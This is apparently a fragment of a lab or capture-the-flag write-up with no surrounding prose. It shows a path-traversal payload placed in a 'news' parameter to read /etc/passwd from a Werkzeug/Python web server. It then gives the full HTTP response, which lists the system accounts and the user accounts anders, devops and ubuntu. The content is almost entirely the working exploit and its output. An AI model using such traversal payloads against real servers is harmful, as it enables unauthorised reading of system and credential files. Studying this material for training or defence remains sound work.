 ```bash
news=../../../../etc/passwd
```


```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Wed, 01 Oct 2025 16:34:19 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3742
Vary: Cookie
Connection: close


<!DOCTYPE html>
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
anders:x:1000:1000:anders:/home/anders:/bin/bash
devops:x:1001:1001:,,,:/home/devops:/bin/bash
telnetd:x:113:118::/nonexistent:/usr/sbin/nologin
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:115:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```
    